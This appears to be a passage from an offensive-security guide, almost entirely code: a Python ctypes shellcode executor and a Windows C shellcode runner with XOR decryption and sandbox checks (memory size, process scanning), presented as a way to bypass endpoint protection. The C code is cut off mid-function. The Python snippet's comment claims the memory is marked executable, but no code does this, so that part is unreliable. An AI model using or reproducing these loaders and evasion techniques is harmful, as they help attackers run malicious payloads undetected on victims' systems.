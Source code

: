#### Python Shellcode Executor

```python
#!/usr/bin/python3
import ctypes
import sys

# Read shellcode from file
with open('shellcode.bin', 'rb') as f:
    shellcode = f.read()

# Allocate virtual memory
shellcode_buffer = ctypes.create_string_buffer(shellcode)
shellcode_func = ctypes.cast(shellcode_buffer, ctypes.CFUNCTYPE(ctypes.c_void_p))

# Mark memory as executable and call the shellcode
shellcode_func()
```

#### Shellcode Analysis Evasion

To bypass modern endpoint protection that performs shellcode analysis:

```c
// Snippet of shellcode runner with basic evasion
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

// Encrypted shellcode (XOR with key 0x41)
unsigned char encrypted_shellcode[] = { /* encrypted bytes */ };

// Shellcode size 
size_t shellcode_size = sizeof(encrypted_shellcode);

// Decryption function
void decrypt_shellcode(unsigned char *shellcode, size_t size, unsigned char key) {
    for (size_t i = 0; i < size; i++) {
        shellcode[i] ^= key;
    }
}

// Environment check function
int is_sandbox() {
    // Check total system memory (sandboxes often have less than 4GB)
    MEMORYSTATUSEX memInfo;
    memInfo.dwLength = sizeof(MEMORYSTATUSEX);
    GlobalMemoryStatusEx(&memInfo);
    DWORDLONG totalPhysMem = memInfo.ullTotalPhys;
    if (totalPhysMem < 4ULL * 1024ULL * 1024ULL * 1024ULL) {
        return 1;
    }
    
    // Check running processes for VM/sandbox indicators
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        return 0;
    }
    
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);
    
    if (!Process32First(hSnapshot, &pe32)) {
        CloseHandle(hSnapshot);
        return 0;
```